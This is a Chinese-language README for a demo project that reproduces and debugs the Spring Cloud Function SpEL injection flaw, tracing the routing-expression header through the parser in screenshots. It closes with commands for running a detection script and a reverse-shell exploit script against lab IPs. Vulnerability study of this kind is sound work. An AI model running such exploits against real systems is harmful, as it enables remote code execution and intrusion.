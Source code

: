 # 关于项目

一个简单的SpringBoot Demo用于复现学习 [Spring Cloud Function SPEL表达式注入漏洞](https://www.anquanke.com/post/id/271221)

## 漏洞信息

### 漏洞名称

Spring Cloud Function SPEL表达式注入漏洞

### 漏洞描述

Spring框架为现代基于java的企业应用程序(在任何类型的部署平台上)提供了一个全面的编程和配置模型。

Spring Cloud 中的 serveless框架 Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成Spel表达式注入，攻击者可通过该漏洞执行任意代码。

### 利用条件
3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

### 环境搭建
在官方网页新建一个 Spring boot 项目(https://start.spring.io/)、使用idea启动。

### 修改 pom.xml 配置文件

编译项目成功后，启动 http://127.0.0.1:8080，出现 Whitelabel Error Page 页面表示成功。

### 漏洞分析（利用链跟踪）

一般步骤：
```
1. 搭建测试环境（可用IDE调试）
2. 验证触发漏洞的poc/exp `~\pentest_library\demo_dev\spring_cloud_function_spel_poc.py`
3. 动态单步调试（通过IDE以Debug模式跟踪调试，观察参数变化）
```

1.看官方的补丁，这个commit还是挺明显的。
- [spring-cloud-function官方修复记录](https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f)

2.设置断点
进入springframework/cloud/function/context/config/RoutingFunction文件，在apply()方法入口处添加断点，然后IDEA开debug模式运行demo，再运行poc触发断点调试。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406095930.png)

可以看到headers中携带了构造的参数

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406100556.png)

前面的一些参数检查可以直接step over过，但要注意进入到springframework/cloud/function/context/config/RoutingFunction/functionFromExpression()方法。

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101032.png)

routingExpression 会做为参数传入到 springframework/expression/common/TemplateAwareExpressionParser/parseExpression()方法中。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101220.png)

判读其context是否为null，不为null再进入方法
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101541.png)

进入springframework/expression/spel/standard/SpelExpressionParser/doPareExpression() 会 new 一个 InternalSpelExpressionParser 类调用 doPareExpression() ，继续step into。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101818.png)

在springframeworl/expression/spel/stand/InternalSpelExpressionParser/doParseExpression()方法中、会在tokenizer.process()中 对token进行 源码与字节码的判断操作、继续向下。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101954.png)

跟进到 springframwork/expression/spel/standard/SpelExpression/SpelExpression()，会new 一个SpelExpression()
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406102343.png)

在SpelExpression()方法中会将将表达式赋值到 this.expression 继续跟进 return到 springframework/expression/spel/standard/SpelpressionParser/doParseExpression()、
继续return到springframework/expression/common/TemplateAwareExpressionPareser/pareExpression()、
return springframework/cloud/function/context/config/RoutingFunction/functionFromExpression()

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406102659.png)

在functionFromExpression()方法中会进入MessageUtils.toCaseInsensitiveHeadersStructure()。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406102834.png)

继续step into到调用MessageStructureWithCaseInsensitiveHeaderKeys()，跟进到 putAll()方法，获取message中头信息。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406103046.png)

最终进入漏洞触发点，触发漏洞。

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406103854.png)

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406104144.png)

## 问题解决
- [java: 错误: 无效的源发行版：15](https://blog.csdn.net/qq_42025798/article/details/113917231)

## REF

- [Spring Cloud Function SPEL表达式注入漏洞](https://www.anquanke.com/post/id/271221)
- [SpringCloud Function SpEL漏洞环境搭建+漏洞复现](https://www.anquanke.com/post/id/271167)
- [Spring-cloud-function-SpEL-RCE](https://github.com/chaosec2021/Spring-cloud-function-SpEL-RCE)


```
开始检测漏洞并反弹shell
## 检测漏洞
python3 Spel_RCE_POC.py url.txt
## 反弹shell
python3 Spel_RCE_Bash_EXP.py http://192.168.160.146:9000/ 192.168.160.241 7777
```

